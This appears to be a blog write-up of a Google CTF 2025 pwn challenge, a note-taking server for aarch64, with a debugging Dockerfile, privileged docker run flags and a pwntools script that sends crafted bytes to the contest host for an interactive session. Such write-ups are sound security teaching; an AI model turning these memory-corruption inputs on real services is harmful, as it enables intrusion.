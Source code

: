 ```yaml
---
title: Google CTF 2025 Writeup | PWN - The Classic Notes App
slug: googlectf25-the-classic-notes-app
author: Utkarsh M
date: '2025-07-16'
description: "Writeup and solution for the Google CTF 2025 - The Classic Notes App challenge."
categories:
  - CTFs
tags:
  - write up
  - web
  - ctf
  - google
  - googlectf
  - reverse engineering
  - pwn
  - re
  - vm
image: /assets/img/ctf/googlectf25/the-classic-notes-app.png
---
```


### Challenge Details

> RC's notebook server. RC does not care about memory safety because *** protects him!<br>
> Author: RC, roguebantha


Connection string: `the-classic-notes-app.2025.ctfcompetition.com 1337`

files: `ctf.c, Dockerfile, nsjail.cfg, qemu-aarch64`

-------------------

## Application

It's a simple note-taking application built for the aarch64 architecture running through QEMU on the challenge server.

You can interact with it using commands like:

```sh
Give me your command:
R 1    
Note at 1: World!
Give me your command:
C 3
Give me your command:
W 2 0 3ABC
Give me your command:
R 2
Note at 2: ABC�
Give me your command:
```

## Solving the challenge

Updated Dockerfile to debug with gdb (gdb-multiarch):

```Dockerfile
# Copyright 2025 Google LLC
#
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     https://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.
FROM ubuntu:24.04 as chroot

# ubuntu24 includes the ubuntu user by default
RUN /usr/sbin/userdel -r ubuntu && /usr/sbin/useradd --no-create-home -u 1000 user

RUN apt update && apt install -y python3-full binutils-aarch64-linux-gnu gcc-aarch64-linux-gnu

COPY qemu-aarch64 /home/user/qemu-aarch64
COPY ctf.c /home/user/ctf.c
COPY flag.txt /home/user/flag.txt
RUN aarch64-linux-gnu-gcc /home/user/ctf.c -o /home/user/ctf -march=armv8.5-a+memtag -fPIE -pie

RUN cp /usr/bin/env /home/user/env

FROM gcr.io/kctf-docker/challenge@sha256:9f15314c26bd681a043557c9f136e7823414e9e662c08dde54d14a6bfd0b619f

COPY --from=chroot / /chroot

# COPY nsjail.cfg /home/user/
RUN apt install -y socat
CMD socat \
      TCP-LISTEN:1337,reuseaddr,fork \
      EXEC:"/chroot/home/user/env GLIBC_TUNABLES='glibc.mem.tagging=1' /chroot/home/user/qemu-aarch64 -L /chroot/usr/aarch64-linux-gnu/ -g 7878 /chroot/home/user/ctf"
# 
```

commands
```sh
docker build -t gdb-build  .
docker run --name cn-gctf-2 -p 1337:1337 -p 7878:7878 --rm   --cap-add=SYS_ADMIN   --cap-add=SYS_PTRACE   --security-opt seccomp=unconfined   --security-opt apparmor=unconfined   --privileged   gdb-build 

# Inside gdb
file ./ctf # copied from :D docker container
set architecture aarch64
target remote localhost:7878
```


The following image illustrates the solution process for the challenge in detail.

![](/assets/img/ctf/googlectf25/the-classic-notes-app.png)

## solution

```py
import pwn

while True:
    try:
        t = pwn.remote('the-classic-notes-app.2025.ctfcompetition.com', 1337)
        t.timeout = None
        t.recvuntil(b'Give me your command:\n')
        t.sendline(b'W 1 32 2' + b'\xa0\x02')
        k = t.recvuntil(b'Give me your command:\n')
        t.sendline(b'W 0 0 4' + b'exit')
        t.recvuntil(b'Give me your command:\n')
        t.sendline(b'W 0 50 100'+ b'\xAA'*100)
        print(k)
        t.interactive()
        break
    except EOFError:
        try:
            t.close()
        except Exception:
            pass
        continue
```

[Github Gist ](https://gist.github.com/Utkar5hM/6606ed6bbde5e3729a13b7f8a778c2e6)

## Obtaining the flag

![](/assets/img/ctf/googlectf25/the-classic-notes-app-2.png)